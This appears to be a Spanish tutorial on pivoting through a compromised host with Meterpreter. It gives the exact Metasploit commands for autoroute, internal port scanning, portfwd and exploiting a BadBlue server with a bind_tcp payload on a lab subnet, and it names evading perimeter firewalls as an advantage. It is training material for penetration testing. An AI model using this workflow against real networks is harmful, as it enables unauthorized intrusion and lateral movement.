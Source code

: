 # Pivoting con Meterpreter

## 1. ¿Qué es pivotear?
En ciberseguridad, **pivotear** significa utilizar una máquina comprometida como punto de salto para acceder a otras máquinas que no son directamente accesibles desde nuestro host atacante.

Esto es útil cuando:
- Nuestro equipo atacante no tiene visibilidad directa de la red interna de la víctima.
- Las otras máquinas objetivo están en redes internas o subredes distintas.
- Queremos realizar movimientos laterales (lateral movement) dentro de una infraestructura.

---

## 2. ¿Cómo funciona?
1. Comprometemos una máquina (victima 1) que sí tiene acceso a otra red interna.
2. Establecemos rutas en Metasploit para que el tráfico pase a través de la sesión de **Meterpreter** de esa máquina.
3. Desde nuestra máquina atacante podemos escanear y explotar máquinas internas **a través de la víctima comprometida**.

---

## 3. Flujo de trabajo paso a paso

### Paso 1: Ganar acceso y reconocer el entorno
```bash
meterpreter > sysinfo
meterpreter > ipconfig
```
- `sysinfo`: Muestra información del sistema operativo.
- `ipconfig`: Lista todas las interfaces y direcciones IP a las que la máquina tiene acceso.

**Objetivo:** Identificar subredes internas que nuestro host atacante no puede alcanzar directamente.

---

### Paso 2: Añadir una ruta para pivotear
Supongamos que encontramos una interfaz con IP `10.0.28.125`.
Quitamos el último octeto y lo sustituimos por `.0/20` para cubrir toda la subred:
```bash
run autoroute -s 10.0.28.0/20
```
- **Qué hace:** Configura Meterpreter para que enrute todo el tráfico hacia esa subred a través de la sesión actual.

---

### Paso 3: Mandar la sesión al background y renombrarla
```bash
background
sessions -n "victima1"
```
- Renombrar la sesión ayuda a identificarla fácilmente si trabajamos con varias.

---

### Paso 4: Escanear la segunda máquina desde la víctima
Usamos el módulo de escaneo de puertos:
```bash
use auxiliary/scanner/portscan/tcp
set RHOSTS 10.0.28.130
set PORTS 1-100
exploit
```
- Esto escanea puertos **a través de la sesión pivotada**.

---

### Paso 5: Crear un Port Forwarding (portfwd)
Supongamos que el escaneo detecta un servicio HTTP en el puerto 80:
```bash
portfwd add -l 1234 -p 80 -r 10.0.28.130
```
- `-l 1234`: Puerto local en nuestra máquina.
- `-p 80`: Puerto de la máquina remota.
- `-r`: IP de la máquina interna a la que queremos acceder.

---

### Paso 6: Escanear el puerto redirigido desde nuestra máquina
```bash
db_nmap -sS -sV -p 1234 localhost
```
- Escanea el puerto `1234` en `localhost`, que en realidad está reenviado al puerto 80 de la máquina interna.

---

### Paso 7: Explotar un servicio vulnerable
Supongamos que `nmap` detecta **BadBlue** vulnerable.

Usamos el exploit correspondiente:
```bash
use exploit/windows/http/passthru
set payload windows/meterpreter/bind_tcp
set RHOSTS 10.0.28.130
set LPORT 4444
exploit
```
**Nota:**  
- Se usa `bind_tcp` porque el ataque es desde la víctima interna hacia nosotros (estamos pivotando y puede que no tengamos acceso inverso con `reverse_tcp`).
- `bind_tcp` hace que el payload abra un puerto en la máquina víctima interna y nuestro Metasploit se conecte a él.

---

## 4. Resumen del proceso

1. **Comprometer primera máquina** (victima1).
2. **Identificar subred interna** con `ipconfig`.
3. **Añadir ruta** con `autoroute`.
4. **Escanear red interna** desde Metasploit.
5. **Redirigir puertos** con `portfwd`.
6. **Escanear servicios** desde nuestro host.
7. **Explotar máquinas internas** usando los módulos de Metasploit.

---

## 5. Ventajas de pivotear
- Permite atacar máquinas que no son accesibles directamente.
- Evita detecciones en la frontera de la red (firewalls externos).
- Facilita la enumeración y explotación de entornos internos.

